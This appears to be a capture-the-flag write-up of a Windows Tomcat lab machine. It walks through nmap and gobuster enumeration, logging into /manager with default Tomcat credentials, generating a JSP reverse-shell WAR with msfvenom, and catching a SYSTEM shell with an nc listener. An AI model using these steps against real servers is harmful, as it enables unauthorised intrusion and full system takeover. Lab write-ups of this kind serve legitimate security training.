





# Enumeration

## Run Nmap Scan

```bash
nmap -p- -T4 -Pn 10.129.136.9

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-29 17:21 BST
Nmap scan report for 10.129.136.9
Host is up (0.18s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 364.58 seconds
"
```

## **View Website**



## Directory Bruteforcing (Run Gobuster)

```bash
gobuster dir -u http://10.129.136.9:8080/ -w /usr/share/wordlists/dirb/common.txt 

"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.136.9:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/09/29 17:29:20 Starting gobuster in directory enumeration mode
===============================================================
/aux                  (Status: 200) [Size: 0]
/com1                 (Status: 200) [Size: 0]
/com2                 (Status: 200) [Size: 0]
/com3                 (Status: 200) [Size: 0]
/con                  (Status: 200) [Size: 0]
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]             
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/manager              (Status: 302) [Size: 0] [--> /manager/]     
                                                                  
===============================================================
2023/09/29 17:30:45 Finished
===============================================================
"
```

## Visit /host-manager



### Default Credentials

```
username: tomcat
password: s3cret
```

# Exploitation

## Visit /manager

Use the default credentials, we gained from the “/host-manager” page



## Finding a File Upload Menu



## Generating Reverse Shell

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker ip> LPORT=4444 -f war -o reverse.war
```

## Uploading our Reverse Shell


## Listen to Reverse Shell and Execute the Reverse Shell



Click “/reverse” button to route to /reverse, then you will gain a reverse shell

```bash
nc -lvnp 4444

"
nc -lvnp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.136.9.
Ncat: Connection from 10.129.136.9:49203.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami /user
whoami /user

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18

C:\apache-tomcat-7.0.88>
"
```